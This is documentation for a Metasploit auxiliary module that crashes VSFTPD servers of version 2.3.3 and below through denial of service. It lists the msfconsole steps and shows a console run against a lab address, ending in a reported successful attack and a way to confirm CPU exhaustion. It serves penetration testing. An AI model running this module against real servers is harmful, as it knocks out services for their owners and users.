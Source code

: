 ## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.3 and below.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf6 > use auxiliary/dos/ftp/vsftpd_232
msf6 auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf6 auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking htop on the machine. If the CPU is at max capacity, that would be due to the DOS.
